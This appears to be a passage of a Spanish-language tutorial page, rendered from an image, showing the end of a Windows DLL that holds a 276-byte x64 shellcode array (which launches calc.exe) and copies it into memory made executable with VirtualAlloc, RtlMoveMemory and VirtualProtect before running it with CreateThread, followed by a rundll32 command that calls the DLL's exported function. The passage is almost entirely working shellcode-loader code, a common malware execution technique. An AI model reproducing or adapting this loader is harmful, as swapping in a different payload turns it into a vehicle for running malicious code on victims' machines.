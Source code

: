 ```c
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
	};
	unsigned int payload_len = 276;
	
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	printf("\nSotred payload in .text section: %-20s : 0x%-016p\n", "payload addr", (void *)payload);
	printf("\n [VirtualAlloc] of new moemory region: %-20s : 0x%-016p\n", "exec_mem addr", (void *)exec_mem);
	printf("\n [RtlMoveMemory] copy data \n");
	RtlMoveMemory(exec_mem, payload, payload_len);
	printf("\n [VirtualProtect] Include execution and read privileges PAGE_EXECUTE_READ \n");
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	printf("\n [CreateThread] Exec stored payload \n");
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	return TRUE;
	}
}
BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

```
La ejecución del proceso: 

```
rundll32.exe base_injection_exec.dll,f0ns1
```
